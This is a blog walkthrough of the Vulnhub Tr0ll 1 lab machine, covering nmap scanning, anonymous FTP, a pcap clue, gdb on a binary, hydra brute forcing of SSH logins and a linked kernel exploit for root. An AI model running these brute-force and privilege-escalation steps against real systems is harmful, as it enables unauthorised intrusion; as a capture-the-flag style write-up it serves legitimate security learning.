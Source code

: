 ```yaml
---
layout: post
title: "Vulnhub Tr0ll 1"
source: "https://anotsodev.me/vulnhub-tr0ll-1/"
author:
  - "anotsodev"
date: 2017-08-25
description: "Started with the Nmap Scan # Nmap 7.40 scan initiated Thu Aug 3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102 Nmap scan report for 192.168.8.102 Host is up (0.0035s latency). Not shown: 997…"
---
```

Started with the Nmap Scan

```
# Nmap 7.40 scan initiated Thu Aug  3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102
Nmap scan report for 192.168.8.102
Host is up (0.0035s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  3 20:59:07 2017 -- 1 IP address (1 host up) scanned in 19.95 seconds
```
- port 21
- port 22
- port 80

![screenshot-from-2017-08-07-14-59-21-e1503681730435.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot-from-2017-08-07-14-59-21-e1503681890612.png?resize=734%2C585&ssl=1)

![screenshot20from202017-08-072015-02-06.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-02-06-e1503681876965.png?resize=656%2C296&ssl=1)

There is a directory in the web server named secret. So I opened the /secret directory and it showed me this.

![screenshot20from202017-08-072015-03-20.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-03-20-e1503682119899.png?resize=745%2C650&ssl=1)

And yes, it made me mad after seeing this.

Continuing my enumeration, I saw that the FTP server allows anonymous login, so I fired up my Filezilla and browse the FTP server. There is a file there named lol.pcap. Pcap is a file that contains the captured network traffics from network analyzers such as Wireshark and some other tools. So to open the pcap file, I launched Wireshark and read the pcap file. It showed me this.

![screenshot20from202017-08-032021-37-00-e1503682196980.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-032021-37-00-e1503710304210.png?resize=1170%2C610&ssl=1)

I noticed the “sup3rs3cr3tdirlol” and tried to open it and voila.

![screenshot20from202017-08-072015-13-36.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-13-36-e1503682263987.png?resize=548%2C388&ssl=1)

I downloaded the file named roflmao then run the file command to determine the filetype of the downloaded file. It shows that it is an ELF 32-bit LSB executable.

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

So the next thing I did was to run the gdb then run the executable file.

```
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from roflmao...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/kaipowered/Documents/Vulnhub/tr0ll/roflmao 
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
(gdb)
```

The output showed me this

```
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
```

I tried to find the said address but I wasn’t able to find it in the memory, so I tried opening it on the web browser and it appears that it is a directory on the web server (luck I guess).

![screenshot20from202017-08-072015-24-34](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-24-34-e1503682433212.png?resize=659%2C390&ssl=1)

```
hydra -L which_one_lol.txt -P Pass.txt 192.168.8.102
```

At first, the usernames and passwords combination did not work, so it was so frustrating.

```
hydra -L which_one_lol.txt -p Pass.txt 192.168.8.102
```

But it appears that the real password is the “Pass.txt”, so I just changed the option from -P to -p, meaning, with the given password, try the usernames from which\_one\_lol.txt to match the correct combinations with hydra.

After bruteforcing, I was able to get the username and password of the machine.

```
username: overflow
password: Pass.txt
```

Commands Used

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ ssh overflow@192.168.8.102
overflow@192.168.8.102's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug  6 23:35:25 2017 from 192.168.8.2
Could not chdir to home directory /home/overflow: No such file or directory
$
```

https://www.exploit-db.com/exploits/37292/

And after successfully exploited the tr0ll vm, I was able to get and read the Proof.txt that can be found in /root directory.

— FIN —

Solving this challenge was quite frustrating at first because, you know, the tr0ll is trolling you, but most of the time, when I found something interesting and it just appeared that I have been tr0lled, I just found myself grinning while clenching my fists, but of course I enjoyed solving this challenge.